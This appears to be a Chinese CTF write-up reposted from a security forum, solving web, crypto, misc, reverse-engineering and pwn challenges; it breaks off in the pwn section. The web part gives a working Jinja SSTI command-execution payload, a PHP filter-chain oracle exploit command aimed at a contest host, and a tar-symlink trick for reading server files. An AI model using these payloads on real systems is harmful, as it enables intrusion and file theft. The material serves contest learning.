










# 春秋杯冬季赛wp-先知社区

> **来源**: https://xz.aliyun.com/news/16615  
> **文章ID**: 16615

---

# web

## flask

根据题目描述，很容易想到ssti注入

测试一下


确实存在

直接打payload

{{lipsum.**globals**['os'].popen('cat f\*').read()}}


## file\_copy

看到题目名字为file\_copy，

当输入路径时会返回目标文件的大小，



通过返回包，可以看到PHP版本为8.1.31

从而找到DownUnder CTF 2022 的题目

<https://www.synacktiv.com/publications/php-filter-chains-file-read-from-error-based-oracle#/>

通过github脚本进行读取flag

<https://github.com/synacktiv/php_filter_chains_oracle_exploit/tree/main?tab=readme-ov-file#/>

python3 filters\_chain\_oracle\_exploit.py --target <http://eci->

2ze4o9fodim6wmt5gbgp.cloudeci1.ichunqiu.com/ --file '/flag' --parameter path

运行得到flag



## gotar

首先这个题目按照常规思路是进行jwt伪造admin身份然后下载flag文件  
![[Pasted image 20250117151338.png]]  
![[Pasted image 20250117151351.png]]  
但是我试了很久都没有找到key  
于是转换思路，在文件上传点那儿做文章  
在对go语言文件上传漏洞这方面有个软连接可以读取文件  
但是这里只能上传tar文件  
问gpt要一个软连接生成方式  
![[Pasted image 20250117151822.png]]

```
mkdir cc # 创建一个名为gotar的新目录。 
ln -s / cc/cc # 在gotar目录中创建一个名为key的符号链接，它指向根目录'/'。 
tar -cvf cc.tar cc/cc # 创建一个名为1.tar的归档文件，包含gotar/key符号链接。
```

![[Pasted image 20250117152320.png]]  
生成出来，然后上传上去  
![[Pasted image 20250117152354.png]]

```
package controllers  
  
import (  
    "Gotar/db"  
    "Gotar/models"    "fmt"    "github.com/whyrusleeping/tar-utils"    "html/template"    "io"    "net/http"    "os"    "path/filepath"    "strings")  
  
const (  
    uploadDir    = "./assets/uploads"  
    extractedDir = "./assets/extracted"  
)  
  
func UploadHandler(w http.ResponseWriter, r *http.Request) {  
    if r.Method != http.MethodPost {  
       http.Error(w, "Invalid request method", http.StatusMethodNotAllowed)  
       return  
    }  
  
    err := r.ParseMultipartForm(10 << 20) // 10MB limit  
    if err != nil {  
       http.Error(w, "Failed to parse form", http.StatusBadRequest)  
       return  
    }  
  
    file, header, err := r.FormFile("file")  
    if err != nil {  
       http.Error(w, "Failed to retrieve file", http.StatusBadRequest)  
       return  
    }  
    defer file.Close()  
  
    userID := r.Context().Value("userID").(uint)  
    filePath := filepath.Join(uploadDir, fmt.Sprintf("%d_%s", userID, header.Filename))  
    outFile, err := os.Create(filePath)  
    if err != nil {  
       http.Error(w, "Failed to create file", http.StatusInternalServerError)  
       return  
    }  
    defer outFile.Close()  
  
    _, err = io.Copy(outFile, file)  
    if err != nil {  
       http.Error(w, "Failed to save file", http.StatusInternalServerError)  
       return  
    }  
    extractedPath, err := extractTar(filePath, userID)  
    if err != nil {  
       http.Error(w, fmt.Sprintf("Failed to extract file: %v", err), http.StatusInternalServerError)  
       return  
    }  
  
    fileRecord := models.File{  
       UserID:        userID,  
       Name:          header.Filename,  
       Path:          filePath,  
       ExtractedPath: extractedPath,  
    }  
    db.DB.Create(&fileRecord)  
  
    http.Redirect(w, r, "/files", http.StatusSeeOther)  
}  
  
func FilesHandler(w http.ResponseWriter, r *http.Request) {  
    var files []models.File  
  
    db.DB.Find(&files)  
  
    tmpl := template.Must(template.ParseFiles("assets/files.html"))  
    tmpl.Execute(w, map[string]interface{}{  
       "Files": files,  
    })  
}  
  
func DownloadHandler(w http.ResponseWriter, r *http.Request) {  
    userID := r.Context().Value("userID").(uint)  
    fileID := strings.TrimSuffix(strings.TrimPrefix(r.URL.Path, "/download/"), "/")  
    var file models.File  
  
    result := db.DB.Where("id = ? AND user_id = ?", fileID, userID).First(&file)  
    if result.Error != nil {  
       http.Error(w, "File not found or access denied", http.StatusNotFound)  
       return  
    }  
  
    http.ServeFile(w, r, file.ExtractedPath)  
}  
  
func extractTar(tarPath string, userID uint) (string, error) {  
    userDir := filepath.Join(extractedDir, fmt.Sprintf("%d", userID))  
    err := os.MkdirAll(userDir, os.ModePerm)  
    if err != nil {  
       return "", err  
    }  
    tarFile, err := os.Open(tarPath)  
    if err != nil {  
       return "", err  
    }  
    defer tarFile.Close()  
    extractor := &tar.Extractor{  
       Path: userDir,  
    }  
    err = extractor.Extract(tarFile)  
    if err != nil {  
       return "", err  
    }  
    return userDir, nil  
}
```

根据这儿，获取上传地点assets/extracted/2/cc/  
![[Pasted image 20250117153055.png]]  
![[Pasted image 20250117153039.png]]

# crypto

## 通往哈希的旅程

根据题目意思，已知前三位，需要爆破8位sha1值即可

exp:

```
import hashlib
from tqdm import tqdm


target_hash = "ca12fd8250972ec363a16593356abb1f3cf3a16d"


def crack_sha1_hash():
    for i in tqdm(range(100000000,1,-1)):  # 遍历所有以188开头的11位号码
        phone_number = f"188{i:08d}"  # 填充为11位数字
        hash_result = hashlib.sha1(phone_number.encode()).hexdigest()  # 计算SHA-1哈希
        if hash_result == target_hash:  # 比较哈希值
            return f"flag{{{phone_number}}}"  # 匹配成功返回结果
    return "未找到匹配的号码"


result = crack_sha1_hash()
print(result)
#flag{18876011645}
```

## 你是小哈斯?

直接一行一行sha1爆破即可（

exp:

```
import hashlib
import itertools
import string

file_path = "题目内容.txt"
charset = string.ascii_letters+string.digits+string.punctuation

max_length = 30
def brute_force_sha1(target_sha1, charset, max_length):
    for length in range(1, max_length + 1):
        for candidate in itertools.product(charset, repeat=length):
            candidate_str = ''.join(candidate)
            sha1_hash = hashlib.sha1(candidate_str.encode()).hexdigest()
            if sha1_hash == target_sha1:
                return candidate_str
    return None

def process_file(file_path, charset, max_length):
    try:
        with open(file_path, 'r') as file:
            lines = file.readlines()
        sha1_hashes = [line.strip() for line in lines]

        for sha1_hash in sha1_hashes:
            result = brute_force_sha1(sha1_hash, charset, max_length)
            if result:
                print(result,end="")
            else:
                print("未找到匹配的字符串")

    except FileNotFoundError:
        print(f"文件 {file_path} 未找到！")

process_file(file_path, charset, max_length)
#1234567890-=qwertyuiopflag{no_is_flag}asdfghjklzxcvbnm,flag{game_cqb_isis_cxyz}.asdfghjklzxcvbnm,.qwertyuiopflag{no_is_flag}1234567890-=
#得到flag{game_cqb_isis_cxyz}
```

## RSA1

task:

```
from Crypto.Util.number import *
import uuid


p, q = [getPrime(512) for _ in range(2)]
N = p * q

flag = b'flag{' + str(uuid.uuid4()).encode() + b'}'
flag += bin(getPrime((1024 - bytes_to_long(flag).bit_length()) // 8)).encode()

m1 = bytes_to_long(flag)
m2 = bytes_to_long(''.join(chr((ord(i) + 3) % 128) for i in flag.decode()).encode())

e = getPrime(128)
c1 = pow(m1 * e, 2835, N)
c2 = pow(m2, 2025, N)
c3 = pow(m2, 2835, N) + e

print(f'{N = }')
print(f'{c1 = }')
print(f'{c2 = }')
print(f'{c3 = }')

'''
N = 176871561120476589165761750300633332586877708342448994506175624203633860119621512318321172927876389631918300184221082317741380365447197777026256405312212716630617721606918066048995683899616059388173629437673018386590043053146712870572300799479269947118251011967950970286626852935438101046112260915112568392601
c1 = 47280375006817082521114885578132104427687384457963920263778661542552259860890075321953563867658233347930121507835612417278438979006705016537596357679038471176957659834155694284364682759675841808209812316094965393550509913984888849945421092463842546631228640293794745005338773574343676100121000764021207044019
c2 = 176231410933979134585886078013933649498379873444851943224935010972452769899603364686158279269197891190643725008151812150428808550310587709008683339436590112802756767140102136304346001599401670291938369014436170693864034099138767167055456635760196888578642643971920733784690410395944410255241615897032471127315
c3 = 135594807884016971356816423169128168727346102408490289623885211179619571354105102393658249292333179346497415129785184654008299725617668655640857318063992703265407162085178885733134590524577996093366819328960462500124201402816244104477018279673183368074374836717994805448310223434099196774685324616523478136309
'''
```

先copper爆e：

```
from Crypto.Util.number import long_to_bytes
import gmpy2

N = 176871561120476589165761750300633332586877708342448994506175624203633860119621512318321172927876389631918300184221082317741380365447197777026256405312212716630617721606918066048995683899616059388173629437673018386590043053146712870572300799479269947118251011967950970286626852935438101046112260915112568392601
c1 = 47280375006817082521114885578132104427687384457963920263778661542552259860890075321953563867658233347930121507835612417278438979006705016537596357679038471176957659834155694284364682759675841808209812316094965393550509913984888849945421092463842546631228640293794745005338773574343676100121000764021207044019
c2 = 176231410933979134585886078013933649498379873444851943224935010972452769899603364686158279269197891190643725008151812150428808550310587709008683339436590112802756767140102136304346001599401670291938369014436170693864034099138767167055456635760196888578642643971920733784690410395944410255241615897032471127315
c3 = 135594807884016971356816423169128168727346102408490289623885211179619571354105102393658249292333179346497415129785184654008299725617668655640857318063992703265407162085178885733134590524577996093366819328960462500124201402816244104477018279673183368074374836717994805448310223434099196774685324616523478136309
cc3=c3>>128
ccc3=cc3<<128

cc2=pow(c2,7,N)

R.<e> = PolynomialRing(Zmod(N))

f=(ccc3+e)^5 - cc2
f=f.monic()
res=f.small_roots(X=2^128,beta=0.4,epsilon=0.02)
x=(ccc3+res[0])%N

e1=c3-x
print(e1)
#281211879955223558268422413173406510291
```

得到e后 ，注意他们之间的关系，这里测试：

```
m1=b'flag{'
print(3*256**0 + 3*256**1 + 3*256**2 + 3*256**3 + 3*256**4)#12935430915
print(bytes_to_long(m1))
m2 = bytes_to_long(''.join(chr((ord(i)+ 3)% 128)for i in m1.decode()).encode())
print(m2)
print(m2-bytes_to_long(m1))#12935430915
```

得到他们的相关消息 m2-bytes\_to\_long(m1)和3*256\*\*0 + 3*256**1 + 3\*256**2 + 3*256\*\*3 + 3*256\*\*4一样，猜测这个关系推。但注意acsii表的125是}，要特殊处理。然后franklin-reiter攻击:

exp:

```
from Crypto.Util.number import long_to_bytes
import gmpy2

N = 176871561120476589165761750300633332586877708342448994506175624203633860119621512318321172927876389631918300184221082317741380365447197777026256405312212716630617721606918066048995683899616059388173629437673018386590043053146712870572300799479269947118251011967950970286626852935438101046112260915112568392601
c1 = 47280375006817082521114885578132104427687384457963920263778661542552259860890075321953563867658233347930121507835612417278438979006705016537596357679038471176957659834155694284364682759675841808209812316094965393550509913984888849945421092463842546631228640293794745005338773574343676100121000764021207044019
c2 = 176231410933979134585886078013933649498379873444851943224935010972452769899603364686158279269197891190643725008151812150428808550310587709008683339436590112802756767140102136304346001599401670291938369014436170693864034099138767167055456635760196888578642643971920733784690410395944410255241615897032471127315
c3 = 135594807884016971356816423169128168727346102408490289623885211179619571354105102393658249292333179346497415129785184654008299725617668655640857318063992703265407162085178885733134590524577996093366819328960462500124201402816244104477018279673183368074374836717994805448310223434099196774685324616523478136309
e1=281211879955223558268422413173406510291
bb = 0
inve1 = gmpy2.invert(int(pow(e1, 2835, N)),int(N))
cc1 = (c1 * inve1) % N

for i in range(130):
    if i != 88:
        bb += 3 * (256 ^ i)  
    else:
        bb -= 125 * (256 ^ i)
print(bb)

def attack(c1, c2, a, b, e, n):
    PR.<x>=PolynomialRing(Zmod(n))
    g1 = x^2835 - c1
    g2 = (a*x + b)^2835 - c2

    def gcd(g1, g2):
        while g2:
            g1, g2 = g2, g1 % g2
        return g1.monic()
    print(gcd(g1, g2))
    return -gcd(g1, g2)[0]
m1 = attack(cc1,x, 1, bb, 2835, N)
for i in range(2 ** 16):
    m11 = int(m1) + i * N
    if b"flag" in long_to_bytes(m11):
        print(long_to_bytes(m11))
#flag{2404dcef-4223-417d-aee0-c236241f2320}
```

# misc

## 简单算术

```
# 给定的加密字符串
encrypted_str = "ys~xdg/m@]mjkz@vl@z~lf>b"

# 尝试不同的密钥
for key in range(256):  # 遍历所有256个可能的字节值
    decrypted_str = ''.join(chr(ord(c) ^ key) for c in encrypted_str)
    print(f"Key: {key} -> {decrypted_str}")
```

写一个脚本遍历即可



## 简单镜像提取

aztec条码，解码得到

5FIVE

解压压缩包得到jpg，丢入010发现有png

提取出来，无法打开，宽高有误，Deformed-Image-Restorer修复

得到

flag：flag{opium\_00pium}

## See anything in these pics?

http流发现上传了一个zip

please recovery.zip，提取出来，zip中是个img文件

R-Studio打开

有一个xls文件，打开

flag：flag{E7A10C15E26AA5750070EF756AAA1F7C}

# re

## ezre

IDA反汇编发现是标准的伪随机数逆向：

```
  v5 = __readfsqword(0x28u);
  *seed = 0LL;
  v2 = 0LL;
  custom_md5_init(seed);
  srand(seed[0]);                               // 78DCD8B08AA32488
                                                // 0FA7DC49E78480EE5
  printf("Enter input: ");
  fgets(s, 43, stdin);
  if ( strlen(s) == 42 )
  {
    memset(s1, 0, 0x2BuLL);
    xor_string_with_rand(s, s1);
    if ( !memcmp(s1, &ida_chars, 0x2BuLL) )
      puts("right");
    else
      puts("wrong");
  }
```

直接使用ltrace获取seed的种子数，就得到了随机数数列了

```
┌──(kali㉿kali)-[~/Desktop/CTFGame/cunqiubei2024/ezre]
└─$ ltrace -e srand ./ezre
ezre->srand(3021285795)                                                                                                                          = <void>
Enter input: 12313213
Invalid input length.
+++ exited (status 0) +++

```

下面就是异或逆运算了：

```
import ctypes
import os

# 加载 C 库
if os.name == 'nt':  # 如果是 Windows 系统
    libc = ctypes.CDLL('msvcrt.dll')
else:  # 如果是其他系统
    libc = ctypes.CDLL('/lib/x86_64-linux-gnu/libc.so.6')

# 声明 srand 和 rand 函数的签名
libc.srand.argtypes = [ctypes.c_uint]
libc.rand.restype = ctypes.c_int

# 定义 Python 封装函数
def set_seed(seed):
    libc.srand(seed)

def generate_random():
    return libc.rand()

target = [0x5C, 0x76, 0x4A, 0x78, 0x15, 0x62, 0x05, 0x7C, 0x6B, 0x21, 0x40, 0x66, 0x5B, 0x1A, 0x48, 0x7A, 0x1E, 0x46, 0x7F, 0x28, 0x02, 0x75, 0x68, 0x2A, 0x34, 0x0C, 0x4B, 0x1D, 0x3D, 0x2E, 0x6B, 0x7A, 0x17, 0x45, 0x07, 0x75, 0x47, 0x27, 0x39, 0x78, 0x61, 0x0B]

set_seed(3021285795)
for i in range(len(target)):
    randnum = generate_random()%127
    print(chr(randnum^target[i]),end="")
    
#得出flag{b799eb3a-59ee-4b3b-b49d-39080fc23e99}
```

## ko0h

发现tls进程检测反调试:

```
  if ( Process32FirstW(hSnapshot, &pe) )
  {
    do
    {
      WideCharToMultiByte(0xFDE9u, 0, pe.szExeFile, -1, MultiByteStr, 260, 0, 0);
      for ( k = 0; k < 7; ++k )
      {
        if ( !strcmp(MultiByteStr, Str2[k]) )
          return 1;
      }
    }
    while ( Process32NextW(hSnapshot, &pe) );
```

发现inlinehook 劫持了原有的base64加密的函数,替换成了一个真正的题目

```
int sub_4027E0()
{
  char v1; // [esp+0h] [ebp-E8h]
  DWORD flOldProtect[3]; // [esp+D0h] [ebp-18h] BYREF
  int Src[2]; // [esp+DCh] [ebp-Ch] BYREF

  if ( !ReadProcessMemory(0xFFFFFFFF, sub_4010AA, &unk_40C1D0, 7u, 0) )
    return sub_401096("ReadProcessMemory error
", v1);
  Src[0] = sub_40105A;
  byte_40C010 = 0xB8;
  memcpy(&byte_40C010 + 1, Src, 4u);
  *(&byte_40C010 + 5) = 0xFF;
  *(&byte_40C010 + 6) = 0xE0;
  flOldProtect[0] = 0;
  VirtualProtect(sub_4010AA, 7u, 0x40u, flOldProtect);
  WriteProcessMemory(0xFFFFFFFF, sub_4010AA, &byte_40C010, 7u, 0);
  return VirtualProtect(sub_4010AA, 7u, flOldProtect[0], flOldProtect);
}
```

发现了一个添加了减法运算的RC4加密:

```
void __cdecl sub_402B60(int input, signed int Size)
{
...
  data = malloc(Size);
  if ( data )
  {
    rc4(input, data, Size, Key, keylen);
    for ( i = 0; i < Size; ++i )
    {
      if ( v5[i] != data[i] )
        return;
    }
    sub_401096("yes", v2);
  }
}
```

发现一个反调试函数动态修改key导致动调的时候过不了:

```
int sub_402A70()
{
  char Source[20]; // [esp+D0h] [ebp-18h] BYREF

  if ( IsDebuggerPresent() )
    return 0;
  strcpy(Source, "DDDDAAAASSSS");
  return sub_401276(Key, Source);
}
```

key是DDDDAAAASSSS

密文是:

```
  v5[0] = 24;
  v5[1] = -100;
  v5[2] = 71;
  v5[3] = 61;
  v5[4] = 59;
  v5[5] = -31;
  v5[6] = 41;
  v5[7] = 39;
  v5[8] = -97;
  v5[9] = 52;
  v5[10] = -125;
  v5[11] = -43;
  v5[12] = -19;
  v5[13] = -75;
  qmemcpy(&v5[14], "nY", 2);
  v5[16] = 127;
  v5[17] = -34;
  v5[18] = 71;
  v5[19] = -41;
  v5[20] = 101;
  v5[21] = 63;
  v5[22] = 122;
  v5[23] = 51;
  v5[24] = 91;
  v5[25] = 100;
  v5[26] = -74;
  v5[27] = -6;
  v5[28] = -108;
  v5[29] = 85;
  v5[30] = -121;
  v5[31] = 66;
  v5[32] = 32;
  v5[33] = 6;
  v5[34] = 12;
  v5[35] = 105;
  v5[36] = -2;
  v5[37] = 114;
  v5[38] = -87;
  v5[39] = -28;
  v5[40] = -47;
  v5[41] = 124;
```

得出解题脚本:

```
class RC4:
    def __init__(self, key):
        """
        初始化 RC4 算法。

        参数:
            key (bytes): 密钥。
        """
        self.S = list(range(256))  # 初始化状态数组
        self.key = key
        self.key_scheduling()

    def key_scheduling(self):
        """
        RC4 密钥调度算法（KSA）。
        """
        j = 0
        for i in range(256):
            j = (j + self.S[i] + self.key[i % len(self.key)]) % 256
            self.S[i], self.S[j] = self.S[j], self.S[i]  # 交换 S[i] 和 S[j]

    def decrypt(self, plaintext):
        """
        RC4 加密。

        参数:
            plaintext (bytes): 明文。

        返回:
            bytes: 加密后的密文。
        """

        i = j = 0
        keystream = []
        for byte in plaintext:
            i = (i + 1) % 256
            j = (j + self.S[i]) % 256
            self.S[i], self.S[j] = self.S[j], self.S[i]  # 交换 S[i] 和 S[j]
            k = (self.S[(self.S[i] + self.S[j])%256]) 
            k = (byte + k) % 256
            keystream.append(k)

        # 将密钥流与明文/密文进行异或操作
        # result = bytes([x ^ y for x, y in zip(plaintext, keystream)])
        return keystream

#flag{babababababababababababababababababab}

# 示例用法
if __name__ == "__main__":
    ciphertext_hex =[0x18, 0x9C, 0x47, 0x3D, 0x3B, 0xE1, 0x29, 0x27, 0x9F, 0x34, 0x83, 0xD5, 0xED, 0xB5, 0x6E, 0x59, 0x7F, 0xDE, 0x47, 0xD7, 0x65, 0x3F, 0x7A, 0x33, 0x5B, 0x64, 0xB6, 0xFA, 0x94, 0x55, 0x87, 0x42, 0x20, 0x06, 0x0C, 0x69, 0xFE, 0x72, 0xA9, 0xE4, 0xD1, 0x7C]


    # 密钥
    key = b"DDDDAAAASSSS"
    # ciphertext = bytes(text)

    # 初始化 RC4
    rc4 = RC4(key)

    # 解密
    plaintext = rc4.decrypt(ciphertext_hex)
    print(plaintext)
    for i in plaintext:
        print(chr(i),end="")
```

# pwn

## bypass

拖入IDA直接发现了函数地址泄露：

```
  *s = &puts;
  ....
  puts("Invalid");                  // 输出非法
